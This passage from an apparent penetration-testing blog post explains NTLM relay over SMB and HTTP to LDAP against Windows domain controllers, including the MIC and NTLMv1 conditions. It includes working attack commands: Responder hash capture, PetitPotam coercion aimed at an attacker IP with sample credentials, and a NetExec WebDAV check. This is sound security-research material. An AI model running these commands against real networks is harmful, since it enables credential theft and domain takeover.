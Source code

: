 #### Examples
NTLM relay to LDAP is somewhat tricky. The details are described again in ["NTLM Relay"](https://en.hackndo.com/ntlm-relay/) by Pixis. During NTLM authentication, clients and servers indicate whether they support signing using the NEGOTIATE_SIGN flag. LDAP decides whether it uses LDAP signing based on the flag. LDAP servers always support LDAP signing (NEGOTIATE_SIGN = 1), so clients must set the flag to 0 to avoid LDAP signing. However, Windows' SMB clients set the flag to 1. We cannot overwrite the flag without breaking MIC (Message Integrity Code). We cannot simply drop the MIC because the msAvFlags indicates the presence of the MIC. We cannot overwrite the msAvFlags because the modification invalidates the NetNTLMv2 hash we want to relay. Of course, we cannot recalculate the NTLMv2 hash because we don't know the user's secret.

<p style="margin-bottom:0.25em">
So, to perform NTLM relay over SMB to LDAP/LDAPS, more conditions must be met. We can drop the MIC when:
</p>
- DC2 allows the Drop the MIC attack (e.g., CVE-2019-1040)
- DC1 allows NTLMv1 authentication (LmCompatibilityLevel<sup>*</sup> <= 2)

<p style="margin-bottom:0em"><em>* LmCompatibilityLevel</em></p>
```registry
Key: HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa  
Name: LMCompatibilityLevel  
Type: REG_DWORD  
```

In these cases, we can use ntlmrelayx.py with --remove-mic. 

[CVE-2019-1040 scanner](https://github.com/fox-it/cve-2019-1040-scanner) or similar tools can be used to check for Drop the MIC vulnerabilities.

To verify LmCompatibilityLevel <= 2, we need to receive NTLM authentication from DC1. [“Practical Attacks against NTLMv1"](https://trustedsec.com/blog/practical-attacks-against-ntlmv1) by TrustedSec shows that LmCompatibilityLevel <= 2 is risky regardless of LDAP. Even if LmCompatibilityLevel == 5 on DC2 (which means incoming NTLMv1 authentication is not allowed), that doesn't prevent the attack.  
```sh
# NTLMv1 hash will be captured if LmCompatibilityLevel <= 2
sudo python3 Responder.py -I ens33
python3 PetitPotam.py -d kawakatz.local -u coward -p 'P@ssw0rd' <attacker ip> dc1.kawakatz.local
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/50.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">When LmCompatibilityLevel <= 2</div>
</div>

The primary communication channels between DC1 and us are SMB (as already mentioned) and HTTP. To coerce NTLM authentication over HTTP, the WebClient service must be enabled on DC1. You can verify whether it's enabled by enumerating named pipes on DC1 as [posted](https://x.com/tifkin_/status/1419806476353298442) by @tifkin_. This check is also implemented as a NetExec module. NTLM authentication over HTTP is attractive for relay because the protocol itself has no message-signing capability, unlike SMB/LDAP. In practice, this results in NEGOTIATE_SIGN = 0 and makes the relay work regardless of the conditions mentioned above.
```sh
netexec smb dc1.kawakatz.local -u coward -p 'P@ssw0rd' -M webdav
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/35.png" width="800" style="border: 1px solid black;" alt=""/>
